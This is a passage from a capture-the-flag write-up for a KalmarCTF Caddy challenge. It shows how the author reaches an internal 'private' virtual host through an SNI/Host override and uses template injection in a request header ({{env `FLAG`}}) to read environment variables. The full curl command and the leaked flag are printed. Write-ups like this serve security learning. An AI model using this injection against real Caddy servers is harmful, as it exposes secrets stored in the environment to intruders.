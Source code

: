 Bingo! We get the output to `{{now}}`!

### Reading `env`

As overwriting the definition of `1 == 1` is probably a lot more annoying than getting the `env`, let's look for that first!

Turn's out the [templating docs]() has an `env` variable!

> Gets an environment variable.
> ```
> {{env "VAR_NAME"}}
> ```

Sweet! Let's grab the flag.

### Solution

We can now use the SNI to access the internal `private` subdomain then abuse a SSTI bug on Caddy to read the environment variables for the flag.

```bash
$ curl --resolve public.caddy.chal-kalmarc.tf:443:172.65.208.191 \
     -H "Host: private.caddy.chal-kalmarc.tf" -H "idea: {{env \`FLAG\`}}" \
     https://public.caddy.chal-kalmarc.tf/fetch/headers
{
  "Accept": [
    "*/*"
  ],
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ],
  "Idea": [
    "kalmar{4n0th3r_K4lmarCTF_An0Th3R_C4ddy_Ch4ll}"
  ],
  "User-Agent": [
    "curl/8.7.1"
  ]
}
```

Flag: `kalmar{4n0th3r_K4lmarCTF_An0Th3R_C4ddy_Ch4ll}`
